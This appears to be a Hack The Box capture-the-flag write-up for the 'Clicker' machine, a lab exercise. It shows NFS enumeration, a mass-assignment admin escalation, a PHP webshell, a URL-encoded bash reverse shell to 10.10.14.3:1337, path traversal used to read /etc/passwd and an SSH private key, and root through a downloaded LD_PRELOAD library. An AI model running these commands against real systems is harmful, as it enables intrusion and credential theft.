


# [Clicker](https://app.hackthebox.com/machines/clicker)

```bash
nmap -p- --min-rate 10000 10.10.11.232 -Pn 
```


After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80,111 10.10.11.232 -Pn
```


From nmap scan result, we see that ip address is resolved into `clicker.htb`, that's why we need to add this into `/etc/hosts` file.


Let's look at `NFS` share by using `showmount` command.
```bash
showmount -e clicker.htb 
```


Let's mount this `NFS` via `mount` command.
```bash
mount -t nfs clicker.htb:/mnt/backups /mnt
```


From source code analysis, I looked at `save_game.php` file which gives me `Mass Assignment` vulnerability by injecting newline `%0a` character.


I submit below payload.


Then I logout and login and see that `Administration` section is enabled already.


Now, I will fuzz `export.php` function to get shell.


From above, you see that I fuzz `extension` with `php` and it give `.php` file.

Now, I will try to change my nickname to php `webshell` payload as below.


Then I use the same `export.php` by change of extension from `.txt` to `.php` to execute my webshell which injected to `name` parameter.


Now, it's time to add reverse shell payload into here.
```bash
bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.3/1337%200%3E%261%27
```




Hola I got reverse shell from port `1337`.


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```


I find `execute_query` on `/opt/manage` directory.


After I look at this binary on `Ghidra`, I see that there's `File Traversal` vulnerability, let's use this.
```bash
./execute_query 223 ../../../etc/passwd
```


Let's read `jack` user's private ssh key.
```bash
./execute_query 223 ../.ssh/id_rsa 
```


Note: We need to add two `-` mark to end and start of file.

Then we change permission and use for authentication.
```bash
chmod 600 id_rsa
ssh -i id_rsa jack@clicker.htb
```


user.txt


For privilege escalation, I just run `sudo -l` command.


By using this [LD_Preload](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path), we will get administrative shell.


Let's transfer this into machine.
```bash
python3 -m http.server --bind 10.10.14.3 8080
```




I need to download this file via `wget`.
```bash
wget http://10.10.14.3:8080/dr4ks.so
```


Let's run `/opt/monitor.sh` file via our malicious `.so` file by specifying `LD_PRELOAD` variable.

```bash
sudo LD_PRELOAD=/tmp/dr4ks.so /opt/monitor.sh 
```


root.txt

